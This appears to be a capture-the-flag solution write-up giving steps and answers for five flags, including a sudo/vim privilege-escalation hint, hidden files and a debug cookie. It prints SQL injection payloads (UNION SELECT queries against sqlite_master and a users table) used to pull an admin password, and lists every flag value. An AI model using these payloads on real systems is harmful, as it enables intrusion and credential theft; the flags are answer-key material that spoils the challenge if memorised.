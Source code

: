 ## Flag 1
### How to
Connect using ssh with the given credentials. Once on the machine, 

```sh
sudo -l
```
This will show that you're able to run vim as another user. 

```sh
sudo -u
```

### Flag
FLAG-{Th@t$AG0od$t@rt}

---
## Flag 2
### How to
In index.php on the webserver port

### Flag
FLAG-{83tt3rLo0k@tTh3$0urc3$}

---
## Flag 3
### How to
In robots.txt on the webserver port

### Flag
FLAG-{MrR0b0t$}

---
## Flag 4 - Optionnal
### How to
Enable the debug cookie. Note this one will help a lot for the 5th flag

### Flag
FLAG-{Co0ki3$Ftw}

---
## Flag 5
### How to
You need to be able to retrieve the db's table name aswell as its columns, in order to be able to perform a UNION ALL injection.

This way, you'll be able to get admin's password (along as its username). 

Then, you just need to netcat onto the openned tcp port on the host machine, and login with the admin's password. However, there's a catch on this one, as the password was not stored in clear ofc... (ROT13 encoded)

### Sql Injection patterns
``` sql
%" --
" UNION SELECT name FROM sqlite_master WHERE type='table' --
" UNION SELECT sql FROM sqlite_master WHERE name='users' --
%" UNION ALL SELECT mysecretpwd FROM users --
```

### Flag
FLAG-{Th@t$Th3Fin@lF|@g}
